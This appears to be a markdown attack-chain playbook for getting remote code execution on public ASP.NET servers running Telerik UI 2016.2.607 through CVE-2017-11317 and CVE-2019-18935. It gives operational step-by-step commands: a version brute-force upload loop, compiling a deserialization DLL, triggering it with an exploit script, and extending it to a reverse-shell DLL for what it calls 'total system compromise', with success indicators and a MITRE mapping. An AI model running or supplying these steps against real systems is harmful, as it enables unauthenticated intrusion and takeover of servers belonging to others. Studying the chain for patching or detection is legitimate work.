

# Remote Code Execution via Telerik UI Arbitrary File Upload and Deserialization

The vulnerability exploited was CVE-2017-11317 and CVE-2019-18935 in Telerik UI version 2016.2.607, allowing arbitrary file upload via the RadAsyncUpload handler and remote code execution through insecure deserialization. It was discovered by accessing the WebResource.axd endpoint, confirming the handler's presence, and using a modified script to identify the vulnerable version by attempting uploads across possible versions. The exploitation involved uploading a test file successfully, compiling a DLL gadget for deserialization, and triggering it to cause a server-side delay, proving RCE capability with potential for reverse shell upload, leading to total system compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/RAU_crypto.py]]
- [[tools/CVE-2019-18935.py]]
- [[tools/build_dll.bat]]
- [[tools/Visual-Studio]]

### Target Environment

- Windows-based ASP.NET web application
- Telerik UI version vulnerable to CVE-2017-11317 and CVE-2019-18935 (e.g., 2016.2.607)
- Exposed WebResource.axd endpoint
- Network access to the target URL (e.g., https://target/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau)

### Initial Access Requirements

- No credentials required (public-facing application)
- Direct HTTP/HTTPS access to the target endpoint
- Local Windows machine with Visual Studio for DLL compilation

## Detailed Attack Procedures

### Step 1: Confirm Handler Presence
procedure: [[procedures/Confirm-RadAsyncUpload-Handler-Presence]]

**Objective**: Verify the presence of the vulnerable RadAsyncUpload handler to confirm potential for exploitation.

**Instructions**: Browse to the target endpoint using a web browser or curl to check for the handler registration message.

**Expected Output**: JSON response indicating the handler is registered.

**Success Indicators**:
- Receipt of JSON message: '{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }'
- No 404 or access denied errors

### Step 2: Reference Exploitation Guide
procedure: [[procedures/Reference-BishopFox-Exploitation-Guide]]

**Objective**: Gather detailed guidance on exploiting the identified vulnerabilities using established resources.

**Instructions**: Review the BishopFox article for step-by-step exploitation techniques, including script usage and DLL compilation.

**Expected Output**: Understanding of subsequent steps for version detection, upload, and RCE.

**Success Indicators**:
- Article reviewed and key concepts noted
- Scripts and build instructions downloaded

### Step 3: Determine Telerik UI Version
procedure: [[procedures/Determine-Telerik-UI-Version-via-Upload-Attempts]]

**Objective**: Identify the exact vulnerable Telerik UI version by attempting encrypted uploads across possible versions.

**Instructions**: Create a test file and loop through versions using [[commands/loop-through-versions-for-upload]] with [[tools/RAU_crypto.py]].

```bash
echo 'test' > testfile.txt
for VERSION in $(cat versions.txt); do echo -n "$VERSION: " python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt https://target/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo; done
```

**Expected Output**: Successful response with fileInfo JSON for the vulnerable version (e.g., 2016.2.607).

**Success Indicators**:
- Vulnerable version identified (e.g., 2016.2.607)
- Upload attempt succeeds for that version

### Step 4: Upload Test File
procedure: [[procedures/Upload-Test-File-to-Confirm-Arbitrary-Upload]]

**Objective**: Confirm arbitrary file upload capability via CVE-2017-11317.

**Instructions**: Use the identified version with [[tools/RAU_crypto.py]] to upload the test file.

**Expected Output**: Successful upload confirmation in the script output.

**Success Indicators**:
- File uploaded to server path (e.g., C:\Windows\Temp)
- No encryption or validation errors

### Step 5: Compile DLL Gadget
procedure: [[procedures/Compile-Deserialization-DLL-Gadget]]

**Objective**: Create a custom DLL for deserialization exploitation to prove RCE.

**Instructions**: On a Windows machine, run [[commands/build-dll]] using [[tools/build_dll.bat]] and Visual Studio.

```bash
build_dll.bat
```

**Expected Output**: Compiled DLL file (e.g., sleep.dll).

**Success Indicators**:
- DLL compiled without errors
- File ready for upload

### Step 6: Test Deserialization Vulnerability
procedure: [[procedures/Test-Deserialization-Vulnerability-with-DLL-Upload]]

**Objective**: Upload the DLL and trigger deserialization to exploit CVE-2019-18935.

**Instructions**: Execute [[commands/upload-and-trigger-dll-poc]] with [[tools/CVE-2019-18935.py]].

```bash
python3 CVE-2019-18935.py -u https://target/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau -v 2016.2.607 -f 'C:\Windows\Temp' -p sleep.dll
```

**Expected Output**: Server-side execution of the gadget, causing a delay.

**Success Indicators**:
- Script completes with upload success
- Server response after delay

### Step 7: Verify Exploit via Response Delay
procedure: [[procedures/Verify-Deserialization-Exploit-via-Response-Delay]]

**Objective**: Measure response time to confirm deserialization and RCE capability.

**Instructions**: Review the output from the previous step's script execution.

**Expected Output**: Response time around 10-12 seconds due to server-side sleep.

**Success Indicators**:
- Delay observed (e.g., 12.34 seconds)
- FileInfo JSON in response

### Step 8: Demonstrate Full RCE
procedure: [[procedures/Demonstrate-Full-RCE-with-Reverse-Shell-Payload]]

**Objective**: Extend the PoC to full compromise using a reverse shell DLL.

**Instructions**: Modify the DLL for reverse shell and re-run the upload/trigger with [[commands/upload-and-trigger-specific-dll]].

```bash
python3 CVE-2019-18935.py -u https://target/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau -v 2016.2.607 -f 'C:\Windows\Temp' -p sleep_2020051106245038_amd64.dll
```

**Expected Output**: Reverse shell connection or equivalent code execution.

**Success Indicators**:
- Shell access or command execution on target
- Total system compromise

## Attack Chain Summary

### Key Achievements

1. Confirmed vulnerable Telerik handler presence
2. Identified exact version 2016.2.607
3. Achieved arbitrary file upload
4. Compiled and triggered deserialization gadget for RCE proof
5. Demonstrated potential for full reverse shell compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Remote File Copy]] Ingress Tool Transfer
- [[PowerShell]] PowerShell (for .NET execution context)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
